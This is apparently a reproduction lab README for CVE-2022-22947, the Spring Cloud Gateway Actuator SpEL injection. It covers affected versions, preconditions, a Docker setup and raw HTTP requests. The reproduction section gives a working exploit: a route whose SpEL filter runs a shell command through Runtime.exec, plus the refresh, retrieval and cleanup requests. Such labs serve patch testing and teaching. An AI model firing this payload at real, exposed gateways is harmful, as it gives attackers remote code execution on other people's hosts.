

# Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947)

[中文版本(Chinese version)](README.zh-cn.md)

## Affected / Fixed / Preconditions
- **Affected**: 3.1.0, 3.0.0–3.0.6
- **Fixed**: 3.1.1, 3.0.7
- **Preconditions**
  - The project includes `spring-boot-starter-actuator`
  - `management.endpoint.gateway.enabled: true`
  - `management.endpoints.web.exposure.include` includes `gateway` (or `*`)
  - `/actuator/gateway/**` is exposed to the network and accessible without authentication or filtering.
  - (Optional) If the management port is separated, access the actuator via `management.server.port`.

Spring Cloud Gateway provides a library for building an API Gateway on top of Spring WebFlux.

Applications using Spring Cloud Gateway versions 3.1.0 and 3.0.0–3.0.6 are vulnerable when the Gateway Actuator endpoint is enabled, exposed, and unsecured. The issue is fixed in 3.1.1 and 3.0.7. A remote attacker can craft a malicious request to achieve arbitrary code execution on the host.

## Minimal configuration (for PoC)
```yaml
server:
  port: 8080

management:
  server:
    port: 8080        # Use a separate port (e.g., 9090) when separating the management port
  endpoints:
    web:
      exposure:
        include: gateway
  endpoint:
    gateway:
      enabled: true

```

## Vulnerability Environment

```bash
mvn -q -DskipTests package
cp target/*.jar target/app.jar
docker compose up -d

Execute the following command to start a server that uses Spring Cloud Gateway 3.1.0:

```
docker compose up -d
```

After server is started, browse the `http://your-ip:8080` to see an example page.

## Vulnerability Reproduction

Firstly, send the following request to add a route which contains an evil SpEL expression:

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "predicates": [{ "name": "Path", "args": { "pattern": "/poc/**" } }],
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```


Secondly, refresh the gateway. The SpEL expression will be executed in this step:

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```


Thirdly, send the following request to retrieve the result:

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```


Afterward, send a DELETE request to remove our evil route:

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```


Finally, refresh the gateway again:

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

### Quick verification (Windows / Git Bash)

```bash
# Register route and verify header
cat > payload.json <<'EOF'
{
  "id": "hack",
  "order": -1,
  "predicates": [{ "name": "Path", "args": { "pattern": "/poc/**" } }],
  "filters": [
    { "name": "SetPath", "args": { "template": "/headers" } },
    { "name": "AddResponseHeader", "args": { "name": "X-Check", "value": "hello" } }
  ],
  "uri": "https://httpbin.org"
}
EOF

curl -s -X POST http://127.0.0.1:8080/actuator/gateway/routes/hack \
  -H "Content-Type: application/json" --data @payload.json
curl -s -X POST http://127.0.0.1:8080/actuator/gateway/refresh
curl -s -D - -o /dev/null http://127.0.0.1:8080/poc   # should show 'X-Check: hello'


```




### Cleanup (for Quick verification)

```bash
curl -s -X DELETE http://127.0.0.1:8080/actuator/gateway/routes/hack
curl -s -X POST   http://127.0.0.1:8080/actuator/gateway/refresh

```

### References

- [Spring Advisory: CVE-2022-22947](https://spring.io/security/cve-2022-22947)
- [NVD: CVE-2022-22947](https://nvd.nist.gov/vuln/detail/CVE-2022-22947)
- [VMware Tanzu Advisory](https://tanzu.vmware.com/security/cve-2022-22947)
- [Blog: SpEL casting and evil beans](https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/)